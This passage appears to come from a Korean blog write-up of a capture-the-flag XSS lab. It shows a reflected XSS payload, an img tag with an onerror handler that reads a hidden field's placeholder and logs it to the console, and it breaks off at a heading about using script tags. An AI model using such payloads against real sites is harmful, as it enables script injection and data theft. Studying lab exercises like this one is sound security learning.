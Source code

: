
### 7. 종합  
URL을 복사하여 실행하게 되면 inspector 콘솔 창에 Flag Here..! 라고 데이터가 출력되는 것을 볼 수 있습니다.
- "><img+src=x+onerror="var+secretData=document.getElementsByName('info')[0].placeholder;console.log(secretData);

<img src="{{ '/assets/img/2025-06-24-CTF-Basic Script Prac (XSS)/Screenshot 2025-06-25 at 1.52.38 am.png' | relative_url }}" style="width:800px; height:auto;" alt="테스트 이미지"> 

<img src="{{ '/assets/img/2025-06-24-CTF-Basic Script Prac (XSS)/Screenshot 2025-06-25 at 1.55.23 am.png' | relative_url }}" style="width:800px; height:auto;" alt="테스트 이미지"> 


-----------------------------
## 만약, onerror 대신에 script 태그를 사용하게 될 경우 (자바스크립트가 실행되는 시점이 다르다)

